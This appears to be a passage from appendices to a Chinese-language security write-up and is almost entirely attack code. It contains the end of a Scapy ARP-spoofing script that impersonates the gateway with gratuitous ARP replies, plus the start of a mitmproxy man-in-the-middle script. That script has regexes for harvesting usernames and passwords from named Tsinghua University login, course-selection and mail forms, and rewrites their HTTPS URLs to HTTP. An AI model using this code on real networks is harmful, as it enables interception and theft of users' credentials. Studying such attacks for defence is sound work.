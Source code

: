 ```python
  log('Sending packet:')
  packet.show()
  sendp(packet * 3)

def main():
  if os.fork():
    do_packet()
  else:
    do_gratuitous()

def do_packet():
  log('Doing packet')
  while True:
    receive = sniff(filter='arp', count=1000, prn=packet_cb)

def do_gratuitous():
  log('Doing gratuitous')
  while True:
    do_reply(gw_ip, 'ff:ff:ff:ff:ff:ff') # gratuitous ARP
    time.sleep(5)


main()
exit()
```

使用方法：

```bash
sudo scapy -c arp.py
```

### 附录2 中间人攻击脚本

```python
#!/usr/bin/env python3
import urllib.parse
import io
import re
from mitmproxy import ctx
from PIL import Image

PASSWORD_REGEXS = [
  ('learn', re.compile('userid=(?P<username>.+)&userpass=(?P<password>.+)&submit')),
  ('zhjwxk', re.compile('j_username=(?P<username>.+)&j_password=(?P<password>.+)&captchaflag')),
  ('mail', re.compile('uid=(?P<username>.+)&password=(?P<password>.+)&domain'))
]

URL_TRANSFORMS = [
  (b'https://learn.tsinghua.edu.cn/MultiLanguage/lesson/teacher/loginteacher.jsp', b'http://learn.tsinghua.edu.cn/MultiLanguage/lesson/teacher/loginteacher.jsp'),
  (b'https://zhjwxk.cic.tsinghua.edu.cn:443/j_acegi_formlogin_xsxk.do', b'http://zhjwxk.cic.tsinghua.edu.cn/j_acegi_formlogin_xsxk.do'),
  (b'https://mails.tsinghua.edu.cn/coremail/index.jsp', b'http://mails.tsinghua.edu.cn/coremail/index.jsp'),
  (b'https://mail.tsinghua.edu.cn/coremail/index.jsp', b'http://mail.tsinghua.edu.cn/coremail/index.jsp'),
  (b'twd15,15', b'equipment,15')
]

class Trans:
  def __init__(self):
    pass
  
  def request(self, flow):
```